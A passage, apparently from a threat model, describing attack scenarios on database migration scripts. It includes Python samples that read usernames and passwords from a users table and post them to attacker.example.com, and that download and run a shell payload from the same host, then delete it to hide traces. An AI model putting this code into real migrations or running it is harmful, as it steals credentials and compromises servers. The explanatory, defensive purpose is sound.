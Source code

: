     ```python
    # Malicious code injected into migration script
    import requests
    import sqlalchemy

    def upgrade():
        bind = op.get_bind()
        metadata = sqlalchemy.MetaData()
        users_table = sqlalchemy.Table('users', metadata, autoload_with=bind)
        select_stmt = sqlalchemy.select([users_table.c.username, users_table.c.password])
        with bind.connect() as connection:
            result = connection.execute(select_stmt)
            for row in result:
                sensitive_data = f"Username: {row.username}, Password: {row.password}"
                requests.post("https://attacker.example.com/exfiltrate", data=sensitive_data)

        # ... rest of the legitimate migration code ...
    ```

*   **Scenario 2: System Compromise and Backdoor Installation:**
    *   A more sophisticated attacker injects code that downloads and executes a secondary payload from a remote server.
    *   This payload could be a reverse shell, allowing persistent remote access to the compromised server.
    *   The migration script could also install a persistent backdoor directly, such as adding a new user with administrative privileges or modifying system configuration files.

    ```python
    # Malicious code injected into migration script
    import subprocess
    import os

    def upgrade():
        # Download malicious payload
        subprocess.run(["curl", "-o", "/tmp/malicious_payload.sh", "https://attacker.example.com/payload.sh"], check=True)
        # Execute payload
        subprocess.run(["bash", "/tmp/malicious_payload.sh"], check=True)
        os.remove("/tmp/malicious_payload.sh") # Clean up traces (optional, but makes detection harder)

        # ... rest of the legitimate migration code ...
    ```

*   **Scenario 3: Denial of Service (DoS):**
    *   A simpler attack could involve injecting code that consumes excessive resources, leading to a denial of service.
    *   This could be achieved through infinite loops, memory exhaustion, or excessive database operations.
